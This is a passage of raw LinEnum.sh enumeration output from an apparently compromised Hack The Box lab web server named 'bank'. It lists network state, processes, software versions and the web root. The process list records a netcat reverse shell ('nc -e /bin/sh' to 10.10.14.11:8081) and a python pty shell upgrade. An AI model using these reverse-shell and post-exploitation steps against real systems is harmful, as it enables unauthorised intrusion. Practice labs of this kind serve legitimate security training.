          RX bytes:238624012 (238.6 MB)  TX bytes:321360873 (321.3 MB)
          Interrupt:19 Base address:0x2000

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:3615 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3615 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:371616 (371.6 KB)  TX bytes:371616 (371.6 KB)


ARP history:
? (10.10.10.2) at 00:50:56:aa:d8:f7 [ether] on eth0


Nameserver(s):
nameserver 10.10.10.29
nameserver 192.168.1.7


Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 eth0


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 10.10.10.29:53          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0   5471 10.10.10.29:34378       10.10.14.11:8081        ESTABLISHED 2747/sh
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::53                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:953                 :::*                    LISTEN      -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53268       TIME_WAIT   -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53348       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53186       TIME_WAIT   -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53334       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53290       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53174       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53306       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53300       TIME_WAIT   -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53350       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53294       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53212       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53190       TIME_WAIT   -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53332       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53210       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53310       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:51476       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53192       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53286       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53188       TIME_WAIT   -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53340       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53250       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53274       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53280       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53314       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53164       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53162       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53206       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53220       TIME_WAIT   -
tcp6       0    491 10.10.10.29:80          10.10.14.11:53336       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53296       TIME_WAIT   -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53354       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53254       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53288       TIME_WAIT   -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53328       ESTABLISHED -
tcp6       0    460 10.10.10.29:80          10.10.14.11:53316       FIN_WAIT1   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53308       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53204       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53216       TIME_WAIT   -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53344       ESTABLISHED -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53324       ESTABLISHED -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53318       ESTABLISHED -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53346       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53180       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53218       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53194       TIME_WAIT   -
tcp6       0    494 10.10.10.29:80          10.10.14.11:53342       ESTABLISHED -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53330       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53312       TIME_WAIT   -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53320       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53238       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53178       TIME_WAIT   -
tcp6       0    495 10.10.10.29:80          10.10.14.11:53352       ESTABLISHED -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53326       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53214       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53166       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53222       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53208       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53302       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53168       TIME_WAIT   -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53322       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53230       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53244       TIME_WAIT   -
tcp6       0    492 10.10.10.29:80          10.10.14.11:53338       ESTABLISHED -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53224       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53172       TIME_WAIT   -
tcp6       0      0 10.10.10.29:80          10.10.14.11:53304       TIME_WAIT   -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.29:53          0.0.0.0:*                           -
udp        0      0 127.0.0.1:53            0.0.0.0:*                           -
udp6       0      0 :::53                   :::*                                -


### SERVICES #############################################
Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.3   4220  3388 ?        Ss   Feb12   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    Feb12   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    Feb12   0:06 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   Feb12   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        S    Feb12   0:02 [kworker/u16:0]
root         7  0.0  0.0      0     0 ?        S    Feb12   0:03 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    Feb12   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    Feb12   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    Feb12   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    Feb12   0:00 [kdevtmpfs]
root        12  0.0  0.0      0     0 ?        S<   Feb12   0:00 [netns]
root        13  0.0  0.0      0     0 ?        S<   Feb12   0:00 [perf]
root        14  0.0  0.0      0     0 ?        S    Feb12   0:00 [khungtaskd]
root        15  0.0  0.0      0     0 ?        S<   Feb12   0:00 [writeback]
root        16  0.0  0.0      0     0 ?        SN   Feb12   0:00 [ksmd]
root        17  0.0  0.0      0     0 ?        SN   Feb12   0:00 [khugepaged]
root        18  0.0  0.0      0     0 ?        S<   Feb12   0:00 [crypto]
root        19  0.0  0.0      0     0 ?        S<   Feb12   0:00 [kintegrityd]
root        20  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        21  0.0  0.0      0     0 ?        S<   Feb12   0:00 [kblockd]
root        22  0.0  0.0      0     0 ?        S<   Feb12   0:00 [ata_sff]
root        23  0.0  0.0      0     0 ?        S<   Feb12   0:00 [md]
root        24  0.0  0.0      0     0 ?        S<   Feb12   0:00 [devfreq_wq]
root        25  0.0  0.0      0     0 ?        S    Feb12   0:03 [kworker/u16:1]
root        26  0.0  0.0      0     0 ?        S    Feb12   0:07 [kworker/0:1]
root        28  0.0  0.0      0     0 ?        S    Feb12   0:00 [kswapd0]
root        29  0.0  0.0      0     0 ?        S<   Feb12   0:00 [vmstat]
root        30  0.0  0.0      0     0 ?        S    Feb12   0:00 [fsnotify_mark]
root        31  0.0  0.0      0     0 ?        S    Feb12   0:00 [ecryptfs-kthrea]
root        47  0.0  0.0      0     0 ?        S<   Feb12   0:00 [kthrotld]
root        48  0.0  0.0      0     0 ?        S<   Feb12   0:00 [acpi_thermal_pm]
root        49  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        50  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        51  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        53  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        54  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        55  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S    Feb12   0:00 [scsi_eh_0]
root        59  0.0  0.0      0     0 ?        S<   Feb12   0:00 [scsi_tmf_0]
root        60  0.0  0.0      0     0 ?        S    Feb12   0:00 [scsi_eh_1]
root        61  0.0  0.0      0     0 ?        S<   Feb12   0:00 [scsi_tmf_1]
root        64  0.0  0.0      0     0 ?        S<   Feb12   0:00 [ipv6_addrconf]
root        77  0.0  0.0      0     0 ?        S<   Feb12   0:00 [deferwq]
root        78  0.0  0.0      0     0 ?        S<   Feb12   0:00 [charger_manager]
root        80  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root       136  0.0  0.0      0     0 ?        S    Feb12   0:00 [scsi_eh_2]
root       137  0.0  0.0      0     0 ?        S<   Feb12   0:00 [scsi_tmf_2]
root       138  0.0  0.0      0     0 ?        S<   Feb12   0:00 [vmw_pvscsi_wq_2]
root       139  0.0  0.0      0     0 ?        S<   Feb12   0:00 [bioset]
root       147  0.0  0.0      0     0 ?        S<   Feb12   0:00 [kpsmoused]
root       150  0.0  0.0      0     0 ?        S    Feb12   0:00 [kworker/0:3]
root       153  0.0  0.0      0     0 ?        S<   Feb12   0:00 [kworker/0:1H]
root       169  0.0  0.0      0     0 ?        S    Feb12   0:00 [jbd2/sda1-8]
root       170  0.0  0.0      0     0 ?        S<   Feb12   0:00 [ext4-rsv-conver]
root       319  0.0  0.2   3028  2136 ?        S    Feb12   0:00 upstart-udev-bridge --daemon
root       323  0.0  0.3  12340  3312 ?        Ss   Feb12   0:00 /lib/systemd/systemd-udevd --daemon
message+   366  0.0  0.1   4268  2044 ?        Ss   Feb12   0:00 dbus-daemon --system --fork
root       397  0.0  0.2   3996  2776 ?        Ss   Feb12   0:00 /lib/systemd/systemd-logind
syslog     408  0.0  0.2  30624  3044 ?        Ssl  Feb12   0:00 rsyslogd
root       440  0.0  0.1   3164  1924 ?        S    Feb12   0:00 upstart-file-bridge --daemon
root       497  0.0  0.0      0     0 ?        S<   Feb12   0:00 [ttm_swap]
root       612  0.0  0.0   2888   156 ?        S    Feb12   0:00 upstart-socket-bridge --daemon
root       790  0.0  0.1   4660  1988 tty4     Ss+  Feb12   0:00 /sbin/getty -8 38400 tty4
root       793  0.0  0.1   4660  1772 tty5     Ss+  Feb12   0:00 /sbin/getty -8 38400 tty5
root       798  0.0  0.1   4660  2000 tty2     Ss+  Feb12   0:00 /sbin/getty -8 38400 tty2
root       799  0.0  0.1   4660  1940 tty3     Ss+  Feb12   0:00 /sbin/getty -8 38400 tty3
root       802  0.0  0.1   4660  1988 tty6     Ss+  Feb12   0:00 /sbin/getty -8 38400 tty6
root       836  0.0  0.4   7828  4872 ?        Ss   Feb12   0:00 /usr/sbin/sshd -D
daemon     838  0.0  0.0   2656   124 ?        Ss   Feb12   0:00 atd
root       839  0.0  0.2   3068  2216 ?        Ss   Feb12   0:00 cron
root       852  0.0  0.1   2212  1396 ?        Ss   Feb12   0:00 acpid -c /etc/acpi/events -s /var/run/acpid.socket
mysql      933  0.0  4.4 327096 45192 ?        Ssl  Feb12   0:31 /usr/sbin/mysqld
bind       938  0.0  1.7  47972 17576 ?        Ssl  Feb12   0:00 /usr/sbin/named -u bind
root       990  0.0  0.6  42800  6328 ?        Sl   Feb12   1:03 /usr/bin/vmtoolsd
root      1073  0.0  2.1 103500 22168 ?        Ss   Feb12   0:03 /usr/sbin/apache2 -k start
root      1122  0.0  0.1   4660  1912 tty1     Ss+  Feb12   0:00 /sbin/getty -8 38400 tty1
root      1241  0.0  0.0      0     0 ?        S    Feb12   0:00 [kauditd]
www-data  1584  0.0  0.4  32400  5100 ?        S    Feb12   0:01 /usr/sbin/apache2 -k start
www-data  2548  0.1  1.1 103968 11304 ?        S    04:58   0:04 /usr/sbin/apache2 -k start
www-data  2588  0.1  1.2 104060 12460 ?        S    05:03   0:03 /usr/sbin/apache2 -k start
www-data  2600  0.1  1.1 103724 11416 ?        S    05:03   0:03 /usr/sbin/apache2 -k start
www-data  2605  0.1  0.9 103580 10200 ?        S    05:03   0:03 /usr/sbin/apache2 -k start
www-data  2634  0.1  1.0 103960 10880 ?        S    05:05   0:03 /usr/sbin/apache2 -k start
www-data  2646  0.1  1.1 104060 12028 ?        S    05:06   0:03 /usr/sbin/apache2 -k start
www-data  2649  0.1  1.1 104052 12176 ?        S    05:06   0:03 /usr/sbin/apache2 -k start
www-data  2655  0.1  1.2 104052 12692 ?        S    05:06   0:03 /usr/sbin/apache2 -k start
www-data  2657  0.0  1.1 104188 12168 ?        S    05:06   0:02 /usr/sbin/apache2 -k start
www-data  2658  0.1  1.1 103996 11976 ?        S    05:06   0:03 /usr/sbin/apache2 -k start
www-data  2659  0.1  1.2 103948 12740 ?        S    05:06   0:03 /usr/sbin/apache2 -k start
www-data  2668  0.1  1.1 104052 12160 ?        S    05:07   0:03 /usr/sbin/apache2 -k start
www-data  2692  0.1  1.2 104344 12440 ?        S    05:08   0:03 /usr/sbin/apache2 -k start
www-data  2694  0.1  1.1 104060 12080 ?        S    05:08   0:03 /usr/sbin/apache2 -k start
www-data  2697  0.1  1.1 104052 12144 ?        S    05:08   0:03 /usr/sbin/apache2 -k start
www-data  2699  0.1  0.9 103588 10132 ?        S    05:08   0:03 /usr/sbin/apache2 -k start
www-data  2714  0.1  0.7 103580  7552 ?        S    05:09   0:03 /usr/sbin/apache2 -k start
www-data  2718  0.1  0.6 103580  6160 ?        S    05:16   0:02 /usr/sbin/apache2 -k start
www-data  2722  0.1  1.1 103716 11360 ?        S    05:19   0:02 /usr/sbin/apache2 -k start
www-data  2723  0.1  0.7 103588  7580 ?        S    05:22   0:02 /usr/sbin/apache2 -k start
www-data  2724  0.1  0.7 103580  7608 ?        S    05:22   0:02 /usr/sbin/apache2 -k start
www-data  2725  0.1  0.9 103588 10080 ?        S    05:30   0:01 /usr/sbin/apache2 -k start
www-data  2726  0.1  1.1 104052 12180 ?        S    05:37   0:01 /usr/sbin/apache2 -k start
www-data  2739  0.1  0.6 103588  6160 ?        S    05:39   0:01 /usr/sbin/apache2 -k start
www-data  2746  0.0  0.0   2284   632 ?        S    05:42   0:00 sh -c nc -e /bin/sh 10.10.14.11 8081
www-data  2747  0.0  0.0   2284   628 ?        S    05:42   0:00 sh
www-data  2749  0.0  0.5   7548  5828 ?        S    05:43   0:00 python -c import pty; pty.spawn("/bin/bash")
www-data  2750  0.0  0.2   3572  2960 pts/0    Ss   05:43   0:00 /bin/bash
www-data  2765  0.1  0.6 103580  6160 ?        S    05:54   0:00 /usr/sbin/apache2 -k start
www-data  2768  0.0  0.6 103572  6160 ?        S    05:56   0:00 /usr/sbin/apache2 -k start
www-data  2769  0.0  0.3   4112  3392 pts/0    S+   05:56   0:00 bash LinEnum.sh
www-data  2770  0.0  0.3   4212  3124 pts/0    S+   05:56   0:00 bash LinEnum.sh
www-data  2771  0.0  0.0   2192   532 pts/0    S+   05:56   0:00 tee -a
www-data  2925  0.0  0.2   4212  2680 pts/0    S+   05:56   0:00 bash LinEnum.sh
www-data  2926  0.0  0.1   3156  1992 pts/0    R+   05:56   0:00 ps aux


Process binaries & associated permissions (from above list):
-rwxr-xr-x 1 root root   986672 May 16  2017 /bin/bash
-rwxr-xr-x 1 root root   259552 Feb  7  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   235064 Feb  7  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 2 root root    26756 Nov 24  2016 /sbin/getty
-rwxr-xr-x 1 root root   252080 Jul 18  2014 /sbin/init
-rwxr-xr-x 1 root root    38996 Jun 17  2014 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   597796 May  9  2017 /usr/sbin/apache2
-rwxr-xr-x 1 root root 10724544 Apr 25  2017 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   573516 Apr 13  2017 /usr/sbin/named
-rwxr-xr-x 1 root root   834648 Aug 11  2016 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 204
drwxr-xr-x  2 root root 4096 Dec 24 05:58 .
drwxr-xr-x 96 root root 4096 Feb 12 00:35 ..
-rw-r--r--  1 root root    0 Aug  3  2016 .legacy-bootordering
-rw-r--r--  1 root root 2427 Mar 13  2014 README
-rwxr-xr-x  1 root root 2243 Apr  3  2014 acpid
-rwxr-xr-x  1 root root 9974 Jan  7  2014 apache2
-rwxr-xr-x  1 root root 4125 Mar 16  2017 apparmor
-rwxr-xr-x  1 root root 2801 May 18  2016 apport
-rwxrwxr-x  1 root root 1071 Sep  8  2013 atd
-rwxr-xr-x  1 root root 3451 Apr 13  2017 bind9
-rwxr-xr-x  1 root root 1919 Jan 18  2011 console-setup
lrwxrwxrwx  1 root root   21 May 28  2017 cron -> /lib/init/upstart-job
-rwxr-xr-x  1 root root 2813 Nov 25  2014 dbus
-rwxr-xr-x  1 root root 1217 Mar  7  2013 dns-clean
lrwxrwxrwx  1 root root   21 Mar 14  2012 friendly-recovery -> /lib/init/upstart-job
-rwxr-xr-x  1 root root 1105 May 13  2015 grub-common
-rwxr-xr-x  1 root root 1329 Mar 13  2014 halt
-rwxr-xr-x  1 root root 1864 Nov 12  2012 irqbalance
-rwxr-xr-x  1 root root 1293 Mar 13  2014 killprocs
-rwxr-xr-x  1 root root 1990 Jan 22  2013 kmod
-rwxr-xr-x  1 root root 5491 Feb 19  2014 mysql
-rwxr-xr-x  1 root root 4479 Mar 20  2014 networking
-rwxr-xr-x  1 root root 1581 Feb 17  2016 ondemand
-rwxr-xr-x  1 root root 1466 Mar 11  2014 open-vm-tools
-rwxr-xr-x  1 root root  561 Apr 21  2015 pppd-dns
-rwxr-xr-x  1 root root 1192 May 27  2013 procps
-rwxr-xr-x  1 root root 6120 Mar 13  2014 rc
-rwxr-xr-x  1 root root  782 Mar 13  2014 rc.local
-rwxr-xr-x  1 root root  117 Mar 13  2014 rcS
-rwxr-xr-x  1 root root  639 Mar 13  2014 reboot
-rwxr-xr-x  1 root root 2918 Jun 13  2014 resolvconf
-rwxr-xr-x  1 root root 4395 Jan 20  2016 rsync
-rwxr-xr-x  1 root root 2913 Dec  4  2013 rsyslog
-rwxr-xr-x  1 root root 1226 Jul 22  2013 screen-cleanup
-rwxr-xr-x  1 root root 3920 Mar 13  2014 sendsigs
-rwxr-xr-x  1 root root  590 Mar 13  2014 single
-rw-r--r--  1 root root 4290 Mar 13  2014 skeleton
-rwxr-xr-x  1 root root 4077 May  2  2014 ssh
-rwxr-xr-x  1 root root  731 Feb  5  2014 sudo
-rwxr-xr-x  1 root root 6173 Apr 14  2014 udev
-rwxr-xr-x  1 root root 2721 Mar 13  2014 umountfs
-rwxr-xr-x  1 root root 2260 Mar 13  2014 umountnfs.sh
-rwxr-xr-x  1 root root 1872 Mar 13  2014 umountroot
-rwxr-xr-x  1 root root 1361 Dec  6  2013 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Mar 13  2014 urandom


### SOFTWARE #############################################
Sudo version:
Sudo version 1.8.9p5


MYSQL version:
mysql  Ver 14.14 Distrib 5.5.55, for debian-linux-gnu (i686) using readline 6.3


Apache version:
Server version: Apache/2.4.7 (Ubuntu)
Server built:   May  9 2017 16:13:38


Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 fcgid_module (shared)
 filter_module (shared)
 include_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php5_module (shared)
 rewrite_module (shared)
 setenvif_module (shared)
 status_module (shared)
 suexec_module (shared)


Anything in the Apache home dirs?:
/var/www/:
total 16K
drwxr-xr-x  4 root     root     4.0K May 28  2017 .
drwxr-xr-x 14 root     root     4.0K May 29  2017 ..
drwxr-xr-x  6 www-data www-data 4.0K Jun 15  2017 bank
drwxr-xr-x  2 root     root     4.0K Jun 14  2017 html

/var/www/bank:
total 128K
drwxr-xr-x 6 www-data www-data 4.0K Jun 15  2017 .
drwxr-xr-x 4 root     root     4.0K May 28  2017 ..
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 assets
drwxr-xr-x 2 root     root      76K Jun 15  2017 balance-transfer
-rw-r--r-- 1 www-data www-data  230 May 28  2017 bankreports.txt
-rw-r--r-- 1 root     root     1.1K May 29  2017 delete-ticket.php
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 inc
-rw-r--r-- 1 www-data www-data 7.6K May 28  2017 index.php
-rw-r--r-- 1 www-data www-data 3.3K May 28  2017 login.php
-rw-r--r-- 1 www-data www-data  692 May 28  2017 logout.php
-rw-r--r-- 1 www-data www-data 4.4K May 29  2017 support.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 13 05:39 uploads

/var/www/bank/assets:
total 28K
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun 15  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K May 28  2017 css
drwxr-xr-x 6 www-data www-data 4.0K May 28  2017 font-awesome
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 fonts
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 img
drwxr-xr-x 3 www-data www-data 4.0K May 28  2017 js

/var/www/bank/assets/css:
total 308K
drwxr-xr-x 3 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data 143K Jul 25  2016 bootstrap.css
-rw-r--r-- 1 www-data www-data 119K Jul 25  2016 bootstrap.min.css
-rw-r--r-- 1 www-data www-data 3.4K Jul 25  2016 htb-bank.css
-rw-r--r-- 1 www-data www-data 1.0K May 28  2017 login.css
-rw-r--r-- 1 www-data www-data  23K Dec 15  2016 sweetalert.css
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 theme

/var/www/bank/assets/css/theme:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data  793 Jan  4  2014 buttons.css
-rw-r--r-- 1 www-data www-data  643 Jan  4  2014 calendar.css
-rw-r--r-- 1 www-data www-data    0 Jan  4  2014 forms.css
-rw-r--r-- 1 www-data www-data    0 Jan  4  2014 stats.css
-rw-r--r-- 1 www-data www-data  14K Jan  4  2014 styles.css

/var/www/bank/assets/font-awesome:
total 24K
drwxr-xr-x 6 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 css
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 fonts
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 less
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 scss

/var/www/bank/assets/font-awesome/css:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 6 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data  27K Jul 25  2016 font-awesome.css
-rw-r--r-- 1 www-data www-data  22K Jul 25  2016 font-awesome.min.css

/var/www/bank/assets/font-awesome/fonts:
total 608K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 6 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data  84K Jul 25  2016 FontAwesome.otf
-rw-r--r-- 1 www-data www-data  55K Jul 25  2016 fontawesome-webfont.eot
-rw-r--r-- 1 www-data www-data 281K Jul 25  2016 fontawesome-webfont.svg
-rw-r--r-- 1 www-data www-data 110K Jul 25  2016 fontawesome-webfont.ttf
-rw-r--r-- 1 www-data www-data  64K Jul 25  2016 fontawesome-webfont.woff

/var/www/bank/assets/font-awesome/less:
total 104K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 6 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data  330 Jul 25  2016 bordered-pulled.less
-rw-r--r-- 1 www-data www-data  418 Jul 25  2016 core.less
-rw-r--r-- 1 www-data www-data  119 Jul 25  2016 fixed-width.less
-rw-r--r-- 1 www-data www-data  465 Jul 25  2016 font-awesome.less
-rw-r--r-- 1 www-data www-data  34K Jul 25  2016 icons.less
-rw-r--r-- 1 www-data www-data  370 Jul 25  2016 larger.less
-rw-r--r-- 1 www-data www-data  377 Jul 25  2016 list.less
-rw-r--r-- 1 www-data www-data  892 Jul 25  2016 mixins.less
-rw-r--r-- 1 www-data www-data  684 Jul 25  2016 path.less
-rw-r--r-- 1 www-data www-data  622 Jul 25  2016 rotated-flipped.less
-rw-r--r-- 1 www-data www-data  582 Jul 25  2016 spinning.less
-rw-r--r-- 1 www-data www-data  476 Jul 25  2016 stacked.less
-rw-r--r-- 1 www-data www-data  16K Jul 25  2016 variables.less

/var/www/bank/assets/font-awesome/scss:
total 104K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 6 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data  332 Jul 25  2016 _bordered-pulled.scss
-rw-r--r-- 1 www-data www-data  419 Jul 25  2016 _core.scss
-rw-r--r-- 1 www-data www-data  120 Jul 25  2016 _fixed-width.scss
-rw-r--r-- 1 www-data www-data  35K Jul 25  2016 _icons.scss
-rw-r--r-- 1 www-data www-data  375 Jul 25  2016 _larger.scss
-rw-r--r-- 1 www-data www-data  378 Jul 25  2016 _list.scss
-rw-r--r-- 1 www-data www-data  906 Jul 25  2016 _mixins.scss
-rw-r--r-- 1 www-data www-data  695 Jul 25  2016 _path.scss
-rw-r--r-- 1 www-data www-data  672 Jul 25  2016 _rotated-flipped.scss
-rw-r--r-- 1 www-data www-data  583 Jul 25  2016 _spinning.scss
-rw-r--r-- 1 www-data www-data  482 Jul 25  2016 _stacked.scss
-rw-r--r-- 1 www-data www-data  16K Jul 25  2016 _variables.scss
-rw-r--r-- 1 www-data www-data  405 Jul 25  2016 font-awesome.scss

/var/www/bank/assets/fonts:
total 228K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data  20K Jul 25  2016 glyphicons-halflings-regular.eot
-rw-r--r-- 1 www-data www-data 107K Jul 25  2016 glyphicons-halflings-regular.svg
-rw-r--r-- 1 www-data www-data  45K Jul 25  2016 glyphicons-halflings-regular.ttf
-rw-r--r-- 1 www-data www-data  23K Jul 25  2016 glyphicons-halflings-regular.woff
-rw-r--r-- 1 www-data www-data  18K Jul 25  2016 glyphicons-halflings-regular.woff2

/var/www/bank/assets/img:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 ..
-rw-r--r-- 1 www-data www-data 7.5K May 28  2017 Thumbs.db
-rw-r--r-- 1 www-data www-data 3.6K May 28  2017 htb-logo.png

/var/www/bank/assets/js:
total 240K
drwxr-xr-x 3 www-data www-data 4.0K May 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K May 28  2017 ..
